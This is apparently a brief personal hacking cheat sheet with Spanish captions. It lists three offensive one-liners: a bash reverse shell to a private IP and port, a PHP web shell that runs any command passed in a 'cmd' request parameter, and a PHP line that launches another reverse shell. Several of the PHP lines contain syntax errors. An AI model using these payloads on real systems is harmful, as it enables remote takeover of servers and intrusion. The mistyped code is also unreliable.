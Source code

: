 ```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


Oneliner para ejecutar cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

oneliner para leer desde php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```
